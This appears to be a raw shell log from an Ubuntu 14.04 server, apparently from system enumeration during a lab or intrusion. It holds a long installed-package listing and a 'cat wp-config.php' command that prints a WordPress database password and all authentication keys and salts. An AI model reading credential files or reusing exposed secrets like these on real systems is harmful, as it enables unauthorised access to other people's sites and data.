    ii  g++-4.8                         4.8.4-2ubuntu1~14.04             amd64        GNU C++ compiler
    ii  gcc                             4:4.8.2-1ubuntu6                 amd64        GNU C compiler
    ii  gcc-4.8                         4.8.4-2ubuntu1~14.04             amd64        GNU C compiler
    ii  gcc-4.8-base:amd64              4.8.4-2ubuntu1~14.04             amd64        GCC, the GNU Compiler Collection (base package)
    ii  gcc-4.9-base:amd64              4.9.1-0ubuntu1                   amd64        GCC, the GNU Compiler Collection (base package)
    ii  gettext-base                    0.18.3.1-1ubuntu3                amd64        GNU Internationalization utilities for the base system
    ii  gnupg                           1.4.16-1ubuntu2.3                amd64        GNU privacy guard - a free PGP replacement
    ii  gpgv                            1.4.16-1ubuntu2.3                amd64        GNU privacy guard - signature verification tool
    ii  grep                            2.16-1                           amd64        GNU grep, egrep and fgrep
    ii  grub                            0.97-29ubuntu66                  amd64        GRand Unified Bootloader (Legacy version)
    ii  grub-common                     2.02~beta2-9ubuntu1.2            amd64        GRand Unified Bootloader (common files)
    ii  gzip                            1.6-3ubuntu1                     amd64        GNU compression utilities
    ii  hostname                        3.15ubuntu1                      amd64        utility to set/show the host name or domain name
    ii  ifupdown                        0.7.47.2ubuntu4.1                amd64        high level tools to configure network interfaces
    ii  init-system-helpers             1.14                             all          helper tools for all init systems
    ii  initramfs-tools                 0.103ubuntu4.2                   all          tools for generating an initramfs
    ii  initramfs-tools-bin             0.103ubuntu4.2                   amd64        binaries used by initramfs-tools
    ii  initscripts                     2.88dsf-41ubuntu6.2              amd64        scripts for initializing and shutting down the system
    ii  insserv                         1.14.0-5ubuntu2                  amd64        boot sequence organizer using LSB init.d script dependency information
    ii  iproute2                        3.12.0-2                         amd64        networking and traffic control tools
    ii  iptables                        1.4.21-1ubuntu1                  amd64        administration tools for packet filtering and NAT
    ii  iputils-ping                    3:20121221-4ubuntu1.1            amd64        Tools to test the reachability of network hosts
    ii  isc-dhcp-client                 4.2.4-7ubuntu12.2                amd64        ISC DHCP client
    ii  isc-dhcp-common                 4.2.4-7ubuntu12.2                amd64        common files used by all the isc-dhcp* packages
    ii  kbd                             1.15.5-1ubuntu1                  amd64        Linux console font and keytable utilities
    ii  keyboard-configuration          1.70ubuntu8                      all          system-wide keyboard preferences
    ii  klibc-utils                     2.0.3-0ubuntu1                   amd64        small utilities built with klibc for early boot
    ii  kmod                            15-0ubuntu6                      amd64        tools for managing Linux kernel modules
    ii  krb5-locales                    1.12+dfsg-2ubuntu5.1             all          Internationalization support for MIT Kerberos
    ii  less                            458-2                            amd64        pager program similar to more
    ii  libacl1:amd64                   2.2.52-1                         amd64        Access control list shared library
    ii  libalgorithm-diff-perl          1.19.02-3                        all          module to find differences between files
    ii  libalgorithm-diff-xs-perl       0.04-2build4                     amd64        module to find differences between files (XS accelerated)
    ii  libalgorithm-merge-perl         0.08-2                           all          Perl module for three-way merge of textual data
    ii  libapt-inst1.5:amd64            1.0.1ubuntu2.8                   amd64        deb package format runtime library
    ii  libapt-pkg4.12:amd64            1.0.1ubuntu2.8                   amd64        package management runtime library
    ii  libarchive-extract-perl         0.70-1                           all          generic archive extracting module
    ii  libasan0:amd64                  4.8.4-2ubuntu1~14.04             amd64        AddressSanitizer -- a fast memory error detector
    ii  libasn1-8-heimdal:amd64         1.6~git20131207+dfsg-1ubuntu1.1  amd64        Heimdal Kerberos - ASN.1 library
    ii  libasprintf0c2:amd64            0.18.3.1-1ubuntu3                amd64        GNU library to use fprintf and friends in C++
    ii  libatomic1:amd64                4.8.4-2ubuntu1~14.04             amd64        support library providing __atomic built-in functions
    ii  libattr1:amd64                  1:2.4.47-1ubuntu1                amd64        Extended attribute shared library
    ii  libaudit-common                 1:2.3.2-2ubuntu1                 all          Dynamic library for security auditing - common files
    ii  libaudit1:amd64                 1:2.3.2-2ubuntu1                 amd64        Dynamic library for security auditing
    ii  libavahi-client3:amd64          0.6.31-4ubuntu1                  amd64        Avahi client library
    ii  libavahi-common-data:amd64      0.6.31-4ubuntu1                  amd64        Avahi common data files
    ii  libavahi-common3:amd64          0.6.31-4ubuntu1                  amd64        Avahi common library
    ii  libblkid1:amd64                 2.20.1-5.1ubuntu20.4             amd64        block device id library
    ii  libbsd0:amd64                   0.6.0-2ubuntu1                   amd64        utility functions from BSD systems - shared library
    ii  libbz2-1.0:amd64                1.0.6-5                          amd64        high-quality block-sorting file compressor library - runtime
    ii  libc-bin                        2.19-0ubuntu6.6                  amd64        Embedded GNU C Library: Binaries
    ii  libc-dev-bin                    2.19-0ubuntu6.6                  amd64        Embedded GNU C Library: Development binaries
    ii  libc6:amd64                     2.19-0ubuntu6.6                  amd64        Embedded GNU C Library: Shared libraries
    ii  libc6-dev:amd64                 2.19-0ubuntu6.6                  amd64        Embedded GNU C Library: Development Libraries and Header Files
    ii  libcap2:amd64                   1:2.24-0ubuntu2                  amd64        support for getting/setting POSIX.1e capabilities
    ii  libcap2-bin                     1:2.24-0ubuntu2                  amd64        basic utility programs for using capabilities
    ii  libcgmanager0:amd64             0.24-0ubuntu7.3                  amd64        Central cgroup manager daemon (client library)
    ii  libck-connector0:amd64          0.4.5-3.1ubuntu2                 amd64        ConsoleKit libraries
    ii  libcloog-isl4:amd64             0.18.2-1                         amd64        Chunky Loop Generator (runtime library)
    ii  libcomerr2:amd64                1.42.9-3ubuntu1.2                amd64        common error description library
    ii  libcups2:amd64                  1.7.2-0ubuntu1.6                 amd64        Common UNIX Printing System(tm) - Core library
    ii  libcurl3:amd64                  7.35.0-1ubuntu2.5                amd64        easy-to-use client-side URL transfer library (OpenSSL flavour)
    ii  libdb5.3:amd64                  5.3.28-3ubuntu3                  amd64        Berkeley v5.3 Database Libraries [runtime]
    ii  libdbus-1-3:amd64               1.6.18-0ubuntu4.3                amd64        simple interprocess messaging system (library)
    ii  libdbus-glib-1-2:amd64          0.100.2-1                        amd64        simple interprocess messaging system (GLib-based shared library)
    ii  libdebconfclient0:amd64         0.187ubuntu1                     amd64        Debian Configuration Management System (C-implementation library)
    ii  libdevmapper1.02.1:amd64        2:1.02.77-6ubuntu2               amd64        Linux Kernel Device Mapper userspace library
    ii  libdpkg-perl                    1.17.5ubuntu5.4                  all          Dpkg perl modules
    ii  libdrm2:amd64                   2.4.60-2~ubuntu14.04.1           amd64        Userspace interface to kernel DRM services -- runtime
    ii  libedit2:amd64                  3.1-20130712-2                   amd64        BSD editline and history libraries
    ii  libestr0                        0.1.9-0ubuntu2                   amd64        Helper functions for handling strings (lib)
    ii  libexpat1:amd64                 2.1.0-4ubuntu1                   amd64        XML parsing C library - runtime library
    ii  libfakeroot:amd64               1.20-3ubuntu2                    amd64        tool for simulating superuser privileges - shared libraries
    ii  libffi6:amd64                   3.1~rc1+r3.0.13-12               amd64        Foreign Function Interface library runtime
    ii  libfile-fcntllock-perl          0.14-2build1                     amd64        Perl module for file locking with fcntl(2)
    ii  libfontconfig1:amd64            2.11.0-0ubuntu4.1                amd64        generic font configuration library - runtime
    ii  libfreetype6:amd64              2.5.2-1ubuntu2.4                 amd64        FreeType 2 font engine, shared library files
    ii  libfribidi0:amd64               0.19.6-1                         amd64        Free Implementation of the Unicode BiDi algorithm
    ii  libfuse2:amd64                  2.9.2-4ubuntu4.14.04.1           amd64        Filesystem in Userspace (library)
    ii  libgcc-4.8-dev:amd64            4.8.4-2ubuntu1~14.04             amd64        GCC support library (development files)
    ii  libgcc1:amd64                   1:4.9.1-0ubuntu1                 amd64        GCC support library
    ii  libgcrypt11:amd64               1.5.3-2ubuntu4.2                 amd64        LGPL Crypto library - runtime library
    ii  libgdbm3:amd64                  1.8.3-12build1                   amd64        GNU dbm database routines (runtime version)
    ii  libglib2.0-0:amd64              2.40.2-0ubuntu1                  amd64        GLib library of C routines
    ii  libglib2.0-data                 2.40.2-0ubuntu1                  all          Common files for GLib library
    ii  libgmp10:amd64                  2:5.1.3+dfsg-1ubuntu1            amd64        Multiprecision arithmetic library
    ii  libgnutls-openssl27:amd64       2.12.23-12ubuntu2.2              amd64        GNU TLS library - OpenSSL wrapper
    ii  libgnutls26:amd64               2.12.23-12ubuntu2.2              amd64        GNU TLS library - runtime library
    ii  libgomp1:amd64                  4.8.4-2ubuntu1~14.04             amd64        GCC OpenMP (GOMP) support library
    ii  libgpg-error0:amd64             1.12-0.2ubuntu1                  amd64        library for common error values and messages in GnuPG components
    ii  libgssapi-krb5-2:amd64          1.12+dfsg-2ubuntu5.1             amd64        MIT Kerberos runtime libraries - krb5 GSS-API Mechanism
    ii  libgssapi3-heimdal:amd64        1.6~git20131207+dfsg-1ubuntu1.1  amd64        Heimdal Kerberos - GSSAPI support library
    ii  libhcrypto4-heimdal:amd64       1.6~git20131207+dfsg-1ubuntu1.1  amd64        Heimdal Kerberos - crypto library
    ii  libheimbase1-heimdal:amd64      1.6~git20131207+dfsg-1ubuntu1.1  amd64        Heimdal Kerberos - Base library
    ii  libheimntlm0-heimdal:amd64      1.6~git20131207+dfsg-1ubuntu1.1  amd64        Heimdal Kerberos - NTLM support library
    ii  libhx509-5-heimdal:amd64        1.6~git20131207+dfsg-1ubuntu1.1  amd64        Heimdal Kerberos - X509 support library
    ii  libice6:amd64                   2:1.0.8-2                        amd64        X11 Inter-Client Exchange library
    ii  libidn11:amd64                  1.28-1ubuntu2                    amd64        GNU Libidn library, implementation of IETF IDN specifications
    ii  libisl10:amd64                  0.12.2-1                         amd64        manipulating sets and relations of integer points bounded by linear constraints
    ii  libitm1:amd64                   4.8.4-2ubuntu1~14.04             amd64        GNU Transactional Memory Library
    ii  libjson-c2:amd64                0.11-3ubuntu1.2                  amd64        JSON manipulation library - shared library
    ii  libjson0:amd64                  0.11-3ubuntu1.2                  amd64        JSON manipulation library (transitional package)
    ii  libk5crypto3:amd64              1.12+dfsg-2ubuntu5.1             amd64        MIT Kerberos runtime libraries - Crypto Library
    ii  libkeyutils1:amd64              1.5.6-1                          amd64        Linux Key Management Utilities (library)
    ii  libklibc                        2.0.3-0ubuntu1                   amd64        minimal libc subset for use with initramfs
    ii  libkmod2:amd64                  15-0ubuntu6                      amd64        libkmod shared library
    ii  libkrb5-26-heimdal:amd64        1.6~git20131207+dfsg-1ubuntu1.1  amd64        Heimdal Kerberos - libraries
    ii  libkrb5-3:amd64                 1.12+dfsg-2ubuntu5.1             amd64        MIT Kerberos runtime libraries
    ii  libkrb5support0:amd64           1.12+dfsg-2ubuntu5.1             amd64        MIT Kerberos runtime libraries - Support library
    ii  libldap-2.4-2:amd64             2.4.31-1+nmu2ubuntu8.1           amd64        OpenLDAP libraries
    ii  liblocale-gettext-perl          1.05-7build3                     amd64        module using libc functions for internationalization in Perl
    ii  liblockfile-bin                 1.09-6ubuntu1                    amd64        support binaries for and cli utilities based on liblockfile
    ii  liblockfile1:amd64              1.09-6ubuntu1                    amd64        NFS-safe locking library
    ii  liblog-message-simple-perl      0.10-1                           all          simplified interface to Log::Message
    ii  libltdl-dev:amd64               2.4.2-1.7ubuntu1                 amd64        A system independent dlopen wrapper for GNU libtool
    ii  libltdl7:amd64                  2.4.2-1.7ubuntu1                 amd64        A system independent dlopen wrapper for GNU libtool
    ii  liblzma5:amd64                  5.1.1alpha+20120614-2ubuntu2     amd64        XZ-format compression library
    ii  libmagic1:amd64                 1:5.14-2ubuntu3.3                amd64        File type determination library using "magic" numbers
    ii  libmodule-pluggable-perl        5.1-1                            all          module for giving  modules the ability to have plugins
    ii  libmount1:amd64                 2.20.1-5.1ubuntu20.4             amd64        block device id library
    ii  libmpc3:amd64                   1.0.1-1ubuntu1                   amd64        multiple precision complex floating-point library
    ii  libmpdec2:amd64                 2.4.0-6                          amd64        library for decimal floating point arithmetic (runtime library)
    ii  libmpfr4:amd64                  3.1.2-1                          amd64        multiple precision floating-point computation
    ii  libncurses5:amd64               5.9+20140118-1ubuntu1            amd64        shared libraries for terminal handling
    ii  libncursesw5:amd64              5.9+20140118-1ubuntu1            amd64        shared libraries for terminal handling (wide character support)
    ii  libnewt0.52:amd64               0.52.15-2ubuntu5                 amd64        Not Erik's Windowing Toolkit - text mode windowing with slang
    ii  libnfnetlink0:amd64             1.0.1-2                          amd64        Netfilter netlink library
    ii  libnih-dbus1:amd64              1.0.3-4ubuntu25                  amd64        NIH D-Bus Bindings Library
    ii  libnih1:amd64                   1.0.3-4ubuntu25                  amd64        NIH Utility Library
    ii  libp11-kit0:amd64               0.20.2-2ubuntu2                  amd64        Library for loading and coordinating access to PKCS#11 modules - runtime
    ii  libpam-cap:amd64                1:2.24-0ubuntu2                  amd64        PAM module for implementing capabilities
    ii  libpam-modules:amd64            1.1.8-1ubuntu2                   amd64        Pluggable Authentication Modules for PAM
    ii  libpam-modules-bin              1.1.8-1ubuntu2                   amd64        Pluggable Authentication Modules for PAM - helper binaries
    ii  libpam-runtime                  1.1.8-1ubuntu2                   all          Runtime support for the PAM library
    ii  libpam0g:amd64                  1.1.8-1ubuntu2                   amd64        Pluggable Authentication Modules library
    ii  libpcre3:amd64                  1:8.31-2ubuntu2                  amd64        Perl 5 Compatible Regular Expression Library - runtime files
    ii  libplymouth2:amd64              0.8.8-0ubuntu17.1                amd64        graphical boot animation and logger - shared libraries
    ii  libpng12-0:amd64                1.2.50-1ubuntu2                  amd64        PNG library - runtime
    ii  libpod-latex-perl               0.61-1                           all          module to convert Pod data to formatted LaTeX
    ii  libpopt0:amd64                  1.16-8ubuntu1                    amd64        lib for parsing cmdline parameters
    ii  libprocps3:amd64                1:3.3.9-1ubuntu2.2               amd64        library for accessing process information from /proc
    ii  libpython-stdlib:amd64          2.7.5-5ubuntu3                   amd64        interactive high-level object-oriented language (default python version)
    ii  libpython2.7-minimal:amd64      2.7.6-8                          amd64        Minimal subset of the Python language (version 2.7)
    ii  libpython2.7-stdlib:amd64       2.7.6-8                          amd64        Interactive high-level object-oriented language (standard library, version 2.7)
    ii  libpython3-stdlib:amd64         3.4.0-0ubuntu2                   amd64        interactive high-level object-oriented language (default python3 version)
    ii  libpython3.4-minimal:amd64      3.4.0-2ubuntu1                   amd64        Minimal subset of the Python language (version 3.4)
    ii  libpython3.4-stdlib:amd64       3.4.0-2ubuntu1                   amd64        Interactive high-level object-oriented language (standard library, version 3.4)
    ii  libquadmath0:amd64              4.8.4-2ubuntu1~14.04             amd64        GCC Quad-Precision Math Library
    ii  libreadline6:amd64              6.3-4ubuntu2                     amd64        GNU readline and history libraries, run-time libraries
    ii  libroken18-heimdal:amd64        1.6~git20131207+dfsg-1ubuntu1.1  amd64        Heimdal Kerberos - roken support library
    ii  librtmp0:amd64                  2.4+20121230.gitdf6c518-1        amd64        toolkit for RTMP streams (shared library)
    ii  libsasl2-2:amd64                2.1.25.dfsg1-17build1            amd64        Cyrus SASL - authentication abstraction library
    ii  libsasl2-modules:amd64          2.1.25.dfsg1-17build1            amd64        Cyrus SASL - pluggable authentication modules
    ii  libsasl2-modules-db:amd64       2.1.25.dfsg1-17build1            amd64        Cyrus SASL - pluggable authentication modules (DB)
    ii  libselinux1:amd64               2.2.2-1ubuntu0.1                 amd64        SELinux runtime shared libraries
    ii  libsemanage-common              2.2-1                            all          Common files for SELinux policy management libraries
    ii  libsemanage1:amd64              2.2-1                            amd64        SELinux policy management library
    ii  libsepol1:amd64                 2.2-1ubuntu0.1                   amd64        SELinux library for manipulating binary security policies
    ii  libsigsegv2:amd64               2.10-2                           amd64        Library for handling page faults in a portable way
    ii  libslang2:amd64                 2.2.4-15ubuntu1                  amd64        S-Lang programming library - runtime version
    ii  libsm6:amd64                    2:1.2.1-2                        amd64        X11 Session Management library
    ii  libsqlite3-0:amd64              3.8.2-1ubuntu2                   amd64        SQLite 3 shared library
    ii  libss2:amd64                    1.42.9-3ubuntu1.2                amd64        command-line interface parsing library
    ii  libssl1.0.0:amd64               1.0.1f-1ubuntu2.15               amd64        Secure Sockets Layer toolkit - shared libraries
    ii  libstdc++-4.8-dev:amd64         4.8.4-2ubuntu1~14.04             amd64        GNU Standard C++ Library v3 (development files)
    ii  libstdc++6:amd64                4.8.4-2ubuntu1~14.04             amd64        GNU Standard C++ Library v3
    ii  libtasn1-6:amd64                3.4-3ubuntu0.3                   amd64        Manage ASN.1 structures (runtime)
    ii  libterm-ui-perl                 0.42-1                           all          Term::ReadLine UI made easy
    ii  libtext-charwidth-perl          0.04-7build3                     amd64        get display widths of characters on the terminal
    ii  libtext-iconv-perl              1.7-5build2                      amd64        converts between character sets in Perl
    ii  libtext-soundex-perl            3.4-1build1                      amd64        implementation of the soundex algorithm
    ii  libtext-wrapi18n-perl           0.06-7                           all          internationalized substitute of Text::Wrap
    ii  libtimedate-perl                2.3000-1                         all          collection of modules to manipulate date/time information
    ii  libtinfo5:amd64                 5.9+20140118-1ubuntu1            amd64        shared low-level terminfo library for terminal handling
    ii  libtool                         2.4.2-1.7ubuntu1                 amd64        Generic library support script
    ii  libtsan0:amd64                  4.8.4-2ubuntu1~14.04             amd64        ThreadSanitizer -- a Valgrind-based detector of data races (runtime)
    ii  libudev1:amd64                  204-5ubuntu20.12                 amd64        libudev shared library
    ii  libusb-0.1-4:amd64              2:0.1.12-23.3ubuntu1             amd64        userspace USB programming library
    ii  libustr-1.0-1:amd64             1.0.4-3ubuntu2                   amd64        Micro string library: shared library
    ii  libuuid1:amd64                  2.20.1-5.1ubuntu20.4             amd64        Universally Unique ID library
    ii  libwind0-heimdal:amd64          1.6~git20131207+dfsg-1ubuntu1.1  amd64        Heimdal Kerberos - stringprep implementation
    ii  libwrap0:amd64                  7.6.q-25                         amd64        Wietse Venema's TCP wrappers library
    ii  libx11-6:amd64                  2:1.6.2-1ubuntu2                 amd64        X11 client-side library
    ii  libx11-data                     2:1.6.2-1ubuntu2                 all          X11 client-side library
    ii  libxau6:amd64                   1:1.0.8-1                        amd64        X11 authorisation library
    ii  libxcb1:amd64                   1.10-2ubuntu1                    amd64        X C Binding
    ii  libxdmcp6:amd64                 1:1.1.1-1                        amd64        X11 Display Manager Control Protocol library
    ii  libxext6:amd64                  2:1.3.2-1ubuntu0.0.14.04.1       amd64        X11 miscellaneous extension library
    ii  libxml2:amd64                   2.9.1+dfsg1-3ubuntu4.4           amd64        GNOME XML library
    ii  libxmuu1:amd64                  2:1.1.1-1                        amd64        X11 miscellaneous micro-utility library
    ii  libxrender1:amd64               1:0.9.8-1build0.14.04.1          amd64        X Rendering Extension client library
    ii  libxt6:amd64                    1:1.1.4-1                        amd64        X11 toolkit intrinsics library
    ii  libxtables10                    1.4.21-1ubuntu1                  amd64        netfilter xtables library
    ii  linux-headers-3.13.0-55         3.13.0-55.94                     all          Header files related to Linux kernel version 3.13.0
    ii  linux-image-3.13.0-55-generic   3.13.0-55.94                     amd64        Linux kernel image for version 3.13.0 on 64 bit x86 SMP
    ii  linux-image-virtual             3.13.0.55.62                     amd64        This package will always depend on the latest minimal generic kernel image.
    ii  linux-libc-dev:amd64            3.13.0-55.94                     amd64        Linux Kernel Headers for development
    ii  locales                         2.13+git20120306-12.1            all          common files for locale support
    ii  lockfile-progs                  0.1.17                           amd64        Programs for locking and unlocking files and mailboxes
    ii  login                           1:4.1.5.1-1ubuntu9               amd64        system login tools
    ii  logrotate                       3.8.7-1ubuntu1                   amd64        Log rotation utility
    ii  lsb-base                        4.1+Debian11ubuntu6              all          Linux Standard Base 4.1 init script functionality
    ii  lsb-release                     4.1+Debian11ubuntu6              all          Linux Standard Base version reporting utility
    ii  m4                              1.4.17-2ubuntu1                  amd64        a macro processing language
    ii  make                            3.81-8.2ubuntu3                  amd64        An utility for Directing compilation.
    ii  makedev                         2.3.1-93ubuntu1                  all          creates device files in /dev
    ii  manpages                        3.54-1ubuntu1                    all          Manual pages about using a GNU/Linux system
    ii  manpages-dev                    3.54-1ubuntu1                    all          Manual pages about using GNU/Linux for development
    ii  mawk                            1.3.3-17ubuntu2                  amd64        a pattern scanning and text processing language
    ii  mime-support                    3.54ubuntu1.1                    all          MIME files 'mime.types' & 'mailcap', and support programs
    ii  module-init-tools               15-0ubuntu6                      all          transitional dummy package (module-init-tools to kmod)
    ii  monit                           1:5.6-2                          amd64        utility for monitoring and managing daemons or similar programs
    ii  mount                           2.20.1-5.1ubuntu20.4             amd64        Tools for mounting and manipulating filesystems
    ii  mountall                        2.53                             amd64        filesystem mounting tool
    ii  multiarch-support               2.19-0ubuntu6.6                  amd64        Transitional package to ensure multiarch compatibility
    ii  nano                            2.2.6-1ubuntu1                   amd64        small, friendly text editor inspired by Pico
    ii  ncurses-base                    5.9+20140118-1ubuntu1            all          basic terminal type definitions
    ii  ncurses-bin                     5.9+20140118-1ubuntu1            amd64        terminal-related programs and man pages
    ii  ncurses-term                    5.9+20140118-1ubuntu1            all          additional terminal type definitions
    ii  net-tools                       1.60-25ubuntu2.1                 amd64        The NET-3 networking toolkit
    ii  netbase                         5.2                              all          Basic TCP/IP networking system
    ii  netcat-openbsd                  1.105-7ubuntu1                   amd64        TCP/IP swiss army knife
    ii  ntpdate                         1:4.2.6.p5+dfsg-3ubuntu2.14.04.3 amd64        client for setting system time from NTP servers
    ii  openssh-client                  1:6.6p1-2ubuntu2                 amd64        secure shell (SSH) client, for secure access to remote machines
    ii  openssh-server                  1:6.6p1-2ubuntu2                 amd64        secure shell (SSH) server, for secure access from remote machines
    ii  openssh-sftp-server             1:6.6p1-2ubuntu2                 amd64        secure shell (SSH) sftp server module, for SFTP access from remote machines
    ii  openssl                         1.0.1f-1ubuntu2.15               amd64        Secure Sockets Layer toolkit - cryptographic utility
    ii  os-prober                       1.63ubuntu1                      amd64        utility to detect other OSes on a set of drives
    ii  passwd                          1:4.1.5.1-1ubuntu9               amd64        change and administer password and group data
    ii  patch                           2.7.1-4ubuntu2.3                 amd64        Apply a diff file to an original
    ii  perl                            5.18.2-2ubuntu1                  amd64        Larry Wall's Practical Extraction and Report Language
    ii  perl-base                       5.18.2-2ubuntu1                  amd64        minimal Perl system
    ii  perl-modules                    5.18.2-2ubuntu1                  all          Core Perl modules
    ii  plymouth                        0.8.8-0ubuntu17.1                amd64        graphical boot animation and logger - main package
    ii  procps                          1:3.3.9-1ubuntu2.2               amd64        /proc file system utilities
    ii  psmisc                          22.20-1ubuntu2                   amd64        utilities that use the proc file system
    ii  pwgen                           2.06-1ubuntu4                    amd64        Automatic Password generation
    ii  python                          2.7.5-5ubuntu3                   amd64        interactive high-level object-oriented language (default version)
    ii  python-chardet                  2.0.1-2build2                    all          universal character encoding detector
    ii  python-minimal                  2.7.5-5ubuntu3                   amd64        minimal subset of the Python language (default version)
    ii  python-requests                 2.2.1-1ubuntu0.2                 all          elegant and simple HTTP library for Python, built for human beings
    ii  python-six                      1.5.2-1                          all          Python 2 and 3 compatibility library (Python 2 interface)
    ii  python-urllib3                  1.7.1-1ubuntu3                   all          HTTP library with thread-safe connection pooling for Python
    ii  python2.7                       2.7.6-8                          amd64        Interactive high-level object-oriented language (version 2.7)
    ii  python2.7-minimal               2.7.6-8                          amd64        Minimal subset of the Python language (version 2.7)
    ii  python3                         3.4.0-0ubuntu2                   amd64        interactive high-level object-oriented language (default python3 version)
    ii  python3-minimal                 3.4.0-0ubuntu2                   amd64        minimal subset of the Python language (default python3 version)
    ii  python3.4                       3.4.0-2ubuntu1                   amd64        Interactive high-level object-oriented language (version 3.4)
    ii  python3.4-minimal               3.4.0-2ubuntu1                   amd64        Minimal subset of the Python language (version 3.4)
    ii  readline-common                 6.3-4ubuntu2                     all          GNU readline and history libraries, common files
    ii  resolvconf                      1.69ubuntu1.1                    all          name server information handler
    ii  rsync                           3.1.0-2ubuntu0.1                 amd64        fast, versatile, remote (and local) file-copying tool
    ii  rsyslog                         7.4.4-1ubuntu2.6                 amd64        reliable system and kernel logging daemon
    ii  screen                          4.1.0~20120320gitdb59704-9       amd64        terminal multiplexer with VT100/ANSI terminal emulation
    ii  sed                             4.2.2-4ubuntu1                   amd64        The GNU sed stream editor
    ii  sensible-utils                  0.0.9                            all          Utilities for sensible alternative selection
    ii  sgml-base                       1.26+nmu4ubuntu1                 all          SGML infrastructure and SGML catalog file support
    ii  shared-mime-info                1.2-0ubuntu3                     amd64        FreeDesktop.org shared MIME database and spec
    ii  ssh                             1:6.6p1-2ubuntu2                 all          secure shell client and server (metapackage)
    ii  ssh-import-id                   3.21-0ubuntu1                    all          securely retrieve an SSH public key and install it locally
    ii  sudo                            1.8.9p5-1ubuntu1.1               amd64        Provide limited super user privileges to specific users
    ii  sysv-rc                         2.88dsf-41ubuntu6.2              all          System-V-like runlevel change mechanism
    ii  sysvinit-utils                  2.88dsf-41ubuntu6.2              amd64        System-V-like utilities
    ii  tar                             1.27.1-1                         amd64        GNU version of the tar archiving utility
    ii  tcpd                            7.6.q-25                         amd64        Wietse Venema's TCP wrapper utilities
    ii  tzdata                          2015d-0ubuntu0.14.04             all          time zone and daylight-saving time data
    ii  ubuntu-keyring                  2012.05.19                       all          GnuPG keys of the Ubuntu archive
    ii  ubuntu-minimal                  1.325                            amd64        Minimal core of Ubuntu
    ii  ucf                             3.0027+nmu1                      all          Update Configuration File(s): preserve user changes to config files
    ii  udev                            204-5ubuntu20.12                 amd64        /dev/ and hotplug management daemon
    ii  ufw                             0.34~rc-0ubuntu2                 all          program for managing a Netfilter firewall
    ii  unzip                           6.0-9ubuntu1.3                   amd64        De-archiver for .zip files
    ii  upstart                         1.12.1-0ubuntu4.2                amd64        event-based init daemon
    ii  ureadahead                      0.100.0-16                       amd64        Read required files in advance
    ii  util-linux                      2.20.1-5.1ubuntu20.4             amd64        Miscellaneous system utilities
    ii  vim-common                      2:7.4.052-1ubuntu3               amd64        Vi IMproved - Common files
    ii  vim-tiny                        2:7.4.052-1ubuntu3               amd64        Vi IMproved - enhanced vi editor - compact version
    ii  vsftpd                          3.0.2-1ubuntu2.14.04.1           amd64        lightweight, efficient FTP server written for security
    ii  wget                            1.15-1ubuntu1.14.04.1            amd64        retrieves files from the web
    ii  whiptail                        0.52.15-2ubuntu5                 amd64        Displays user-friendly dialog boxes from shell scripts
    ii  x11-common                      1:7.7+1ubuntu8.1                 all          X Window System (X.Org) infrastructure
    ii  xauth                           1:1.0.7-1ubuntu1                 amd64        X authentication utility
    ii  xkb-data                        2.10.1-1ubuntu1                  all          X Keyboard Extension (XKB) configuration data
    ii  xml-core                        0.13+nmu2                        all          XML infrastructure and XML catalog file support
    ii  xz-utils                        5.1.1alpha+20120614-2ubuntu2     amd64        XZ-format compression utilities
    ii  zip                             3.0-8                            amd64        Archiver for .zip files
    ii  zlib1g:amd64                    1:1.2.8.dfsg-1ubuntu1            amd64        compression library - runtime
    ii  zlib1g-dev:amd64                1:1.2.8.dfsg-1ubuntu1            amd64        compression library - development
.

     cat wp-config.php
     <?php
     /**
      * The base configuration for WordPress
      *
      * The wp-config.php creation script uses this file during the
      * installation. You don't have to use the web site, you can
      * copy this file to "wp-config.php" and fill in the values.
      *
      * This file contains the following configurations:
      *
      * * MySQL settings
      * * Secret keys
      * * Database table prefix
      * * ABSPATH
      *
      * @link https://codex.wordpress.org/Editing_wp-config.php
      *
      * @package WordPress
      */
     
     // ** MySQL settings - You can get this info from your web host ** //
     /** The name of the database for WordPress */
     define('DB_NAME', 'bitnami_wordpress');
     
     /** MySQL database username */
     define('DB_USER', 'bn_wordpress');
     
     /** MySQL database password */
     define('DB_PASSWORD', '570fd42948');
     
     /** MySQL hostname */
     define('DB_HOST', 'localhost:3306');
     
     /** Database Charset to use in creating database tables. */
     define('DB_CHARSET', 'utf8');
     
     /** The Database Collate type. Don't change this if in doubt. */
     define('DB_COLLATE', '');
     
     /**#@+
      * Authentication Unique Keys and Salts.
      *
      * Change these to different unique phrases!
      * You can generate these using the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}
      * You can change these at any point in time to invalidate all existing cookies. This will force all users to have to log in again.
      *
      * @since 2.6.0
      */
     define('AUTH_KEY', '680da46b083797689c88de74fb0e37751543e73da030db586c15c0324e0cedb9');
     define('SECURE_AUTH_KEY', 'b5b074d24786c50a8566969fda3db0817acb9dfc89cc6c4385ef11006bbd11d8');
     define('LOGGED_IN_KEY', 'fbefe850e9c60842e9e53ce239a42295870e1714edc75620ca69eb6df8c46d33');
     define('NONCE_KEY', '4b49f12364adbfee4adb90a3ee653321ef4697073705a324013484e16d7a507a');
     define('AUTH_SALT', '237ceb3335e2645a34f9630564bdb2d20c4cf839f191c7f339be8335bc2f6abc');
     define('SECURE_AUTH_SALT', '78c494df94f55b27322220ae093effe08ec9e75a3159ebd472a625a6ae62004f');
     define('LOGGED_IN_SALT', '3e824b24e1e23252c2d3c6718bb9ac862d61406333c333ee664527a81b720f22');
     define('NONCE_SALT', '108211dc940a29d954ea3f78fce857a8fb018e437352aaf3c9fe0c3d57d31635');
     
     /**#@-*/
     
     /**
      * WordPress Database Table prefix.
      *
      * You can have multiple installations in one database if you give each
      * a unique prefix. Only numbers, letters, and underscores please!
      */
     $table_prefix  = 'wp_';
     
     /**
      * For developers: WordPress debugging mode.
      *
      * Change this to true to enable the display of notices during development.
      * It is strongly recommended that plugin and theme developers use WP_DEBUG
      * in their development environments.
      *
      * For information on other constants that can be used for debugging,
      * visit the Codex.
      *
      * @link https://codex.wordpress.org/Debugging_in_WordPress
      */
     define('WP_DEBUG', false);
     
     /* That's all, stop editing! Happy blogging. */
     /**
      * The WP_SITEURL and WP_HOME options are configured to access from any hostname or IP address.
      * If you want to access only from an specific domain, you can modify them. For example:
      *  define('WP_HOME','http://example.com');
      *  define('WP_SITEURL','http://example.com');
      *
     */
     
     define('WP_SITEURL', 'http://' . $_SERVER['HTTP_HOST'] . '/');
     define('WP_HOME', 'http://' . $_SERVER['HTTP_HOST'] . '/');
     
     
     /** Absolute path to the WordPress directory. */
     if ( !defined('ABSPATH') )
             define('ABSPATH', dirname(__FILE__) . '/');
     
